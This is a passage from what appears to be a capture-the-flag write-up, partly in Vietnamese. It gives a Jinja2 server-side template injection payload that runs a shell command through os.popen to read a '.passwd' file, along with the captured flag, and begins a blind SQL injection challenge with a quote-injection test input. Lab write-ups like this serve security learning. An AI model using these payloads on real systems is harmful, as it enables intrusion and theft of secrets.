 ![img](./img/Screenshot%20from%202022-02-28%2008-48-50.png)

Ref: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

Payload: ``{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat .passwd').read() }}``

flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

# 28. SQL injection - Blind
## Solution 1
![img](./img/1.png)

Như hint từ title thì có vẻ đây là 1 chall về dạng Blind Injection cụ thể là Boolen based. Trước tiên mình sẽ thử trigger lỗi bằng 1 số kí tự đặc biệt

Payload: ``username=1’abc&password=1``

![img](./img/2.png)
